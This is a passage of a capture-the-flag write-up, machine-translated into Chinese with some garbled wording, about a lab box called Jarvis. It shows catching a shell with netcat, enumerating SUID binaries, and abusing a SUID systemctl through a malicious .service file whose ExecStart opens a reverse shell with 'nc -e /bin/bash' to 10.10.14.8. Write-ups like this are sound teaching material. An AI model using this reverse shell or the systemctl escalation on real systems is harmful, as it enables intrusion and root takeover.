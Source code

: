 
我得到一个贝壳作为胡椒：

    root@kali# nc -nlvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37144.
    id
    uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
    

现在我可以抓住：`user.txt`

    pepper@jarvis:~$ cat user.txt 
    2afa36c4...
    

## 私人：胡椒 - >根

### 列举

我上传并运行了它（与）。SUID部分很有趣：`LinEnum.sh``-t`

    [-] SUID files:
    -rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount                
    -rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping                      
    -rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl       
    -rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount                                             
    -rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su                            
    -rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp                  
    -rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd                  
    -rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd                                                            
    -rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh                                                   
    -rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 440728 Mar  1 11:19 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    

我对 特别感兴趣。此二进制文件是一个系统化实用程序，负责控制系统和服务管理器。也就是说，它创建和管理服务。在这种情况下，只有根和组胡椒（我）中的用户可以运行它，它将作为root运行。`/bin/systemctl`

### 恶意服务

服务由文件定义。用于将其链接到 ，然后再次用于启动服务。服务的作用由文件定义。`.service``systemctl``systemd``.service`

[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/) 有一个 页面，它给出了一个示例，其中执行单个命令并将其输出到 中的文件。我会稍微修改一下，给我一个外壳。`systemctl``tmp`

    pepper@jarvis:/dev/shm$ cat >0xdf.service<<EOF
    [Service]
    Type=notify
    ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
    KillMode=process
    Restart=on-failure
    RestartSec=42s
    